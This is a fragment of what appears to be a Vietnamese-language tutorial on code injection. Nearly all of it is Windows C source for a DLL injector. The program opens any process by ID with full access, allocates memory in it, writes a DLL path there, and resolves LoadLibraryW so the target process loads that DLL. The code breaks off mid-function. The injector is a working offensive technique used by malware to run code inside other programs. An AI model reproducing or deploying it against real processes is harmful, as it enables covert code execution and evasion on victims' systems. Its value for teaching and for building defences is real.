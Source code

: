 ```
    }
    return TRUE;
}
```

Tiến hành code injection

```C
#include<stdio.h>
#include<windows.h>

const char* k = "[+]";
const char* e = "[-]";
const char* i = "[*]";

DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;	
HMODULE hKernel32 = NULL;
HANDLE hProcess = NULL, hThread = NULL;

wchar_t dllPath[MAX_PATH] = L"D:\\LuongVD.dll";
size_t dllPathSize = sizeof(dllPath);


int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("%s Usage: %s", e, argv[0]);
        return EXIT_FAILURE;
    }

    PID = atoi(argv[1]);
    printf("%s Trying to get a handle to the process (%ld)\n", i, PID);

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

    if (hProcess == NULL) {
        printf("%s Failed to get a handle to the process, error: %ld\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s Got a handle to the process (%p)\n", k, hProcess);
    rBuffer = VirtualAllocEx(hProcess, NULL, dllPathSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (rBuffer == NULL) {
        printf("%s couldn't create rBuffer, error: %ld\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s allocated buffer to process memory w/ PAGE_READWRITE permission\n", k);

    WriteProcessMemory(hProcess, rBuffer, (LPVOID)dllPath, dllPathSize, NULL);
    printf("%s wrote [%S] to process memory\n", k, dllPath);

    hKernel32 = GetModuleHandleW(L"Kernel32");
    if (hKernel32 == NULL) {
        printf("%s couldn't get handle to Kernel32, error: %ld\n", e, GetLastError());
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got handle to Kernel32 (%p)\n", k, hKernel32);

    LPTHREAD_START_ROUTINE startThis = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
    if (startThis == NULL) {
        printf("%s couldn't get address of LoadLibraryW, error: %ld\n", e, GetLastError());
        VirtualFreeEx(hProcess, rBuffer, 0, MEM_RELEASE);
```